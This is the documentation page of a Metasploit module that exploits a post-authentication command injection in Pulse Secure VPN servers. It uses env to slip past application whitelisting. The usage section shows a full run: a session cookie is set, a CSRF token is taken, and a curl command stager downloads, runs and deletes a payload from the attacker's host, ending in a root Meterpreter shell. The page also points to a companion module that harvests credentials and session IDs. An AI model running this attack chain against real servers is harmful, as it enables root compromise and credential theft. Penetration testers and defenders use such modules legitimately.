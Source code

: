## Introduction

This module exploits a post-auth command injection in the Pulse Secure
VPN server to execute commands as root. The `env(1)` command is used to
bypass application whitelisting and run arbitrary commands.

Please see related module `auxiliary/gather/pulse_secure_file_disclosure`
for a pre-auth file read that is able to obtain plaintext and hashed
credentials, plus session IDs that may be used with this exploit.

A valid administrator session ID is required in lieu of untested SSRF.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**SID**

Set this to a valid administrator session ID. Typically retrieved using
the `auxiliary/gather/pulse_secure_file_disclosure` module.

## Usage

```
msf exploit(linux/http/pulse_secure_cmd_exec) > set sid 676f5f892e8c4a6419f10564f9e9d857
sid => 676f5f892e8c4a6419f10564f9e9d857
msf exploit(linux/http/pulse_secure_cmd_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:[redacted]
[+] Setting session cookie: DSID=676f5f892e8c4a6419f10564f9e9d857
[*] Obtaining CSRF token
[+] CSRF token: 6b0e020e1de8c68c043ea0e4f663b7a5
[*] Executing Linux Dropper target
[*] Using URL: https://0.0.0.0:[redacted]/HSEjp77
[*] Local IP: https://[redacted]:[redacted]/HSEjp77
[*] Generated command stager: ["curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77", "chmod +x /tmp/qlUqDxCU", "/tmp/qlUqDxCU", "rm -f /tmp/qlUqDxCU"]
[*] Executing command: env /home/bin/curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Client 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18) requested /HSEjp77
[*] Sending payload to 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18)
[+] Payload execution successful
[*] Command Stager progress -  63.96% done (71/111 bytes)
[*] Executing command: env chmod +x /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress -  87.39% done (97/111 bytes)
[*] Executing command: env /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Meterpreter session 1 opened (127.0.0.1:[redacted] -> 127.0.0.1:53200) at 2019-11-12 02:05:40 -0600
[!] Payload execution may have failed
[*] Command Stager progress - 102.70% done (114/111 bytes)
[*] Executing command: env rm -f /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress - 123.42% done (137/111 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : [redacted]
OS           :  (Linux 2.6.32-00486-gddd7e32-dirty)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
